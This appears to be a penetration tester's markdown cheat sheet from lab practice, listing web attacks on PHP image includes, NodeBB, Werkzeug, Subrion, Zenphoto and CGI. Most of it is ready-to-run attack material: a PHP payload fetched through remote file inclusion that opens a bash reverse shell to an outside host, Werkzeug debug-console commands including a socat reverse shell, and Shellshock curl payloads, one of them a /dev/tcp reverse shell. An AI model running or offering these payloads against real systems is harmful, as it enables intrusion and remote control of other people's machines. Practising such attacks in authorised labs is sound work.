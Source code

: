 ```bash
cat evil.txt
<?php echo system('bash -i >& /dev/tcp/192.168.49.215/445 0>&1'); ?>

http://192.168.215.58/image.php?img=http://192.168.49.215/evil.txt
http://192.168.215.58/image.php?img=http://192.168.49.215/evil.txt&cmd=id
```

### NodeBB
+ nodebb, plugin enoji version 3.2.1; [Arbitrary File Write](https://www.exploit-db.com/exploits/49813)
+ pg-tico

```bash

```

### Werkzeug
+ python web service
+ console rce if debug actived
+ more, https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

```bash
# web port
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)

# console rce
__import__('os').popen('whoami').read();
os.system('socat TCP:192.168.118.8:18000 EXEC:sh')
```

### Subrion CMS
+ v4.2.1, [Remote Code Execution](https://www.exploit-db.com/exploits/49876); pg-exfiltrated

### Zenphoto
+ version 1.4.1.4, [RCE](https://www.exploit-db.com/exploits/18083)
+ pg-zenphoto

### CGI
+ check sherlock vuln; htb shocker, beep

```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi

# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh

python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
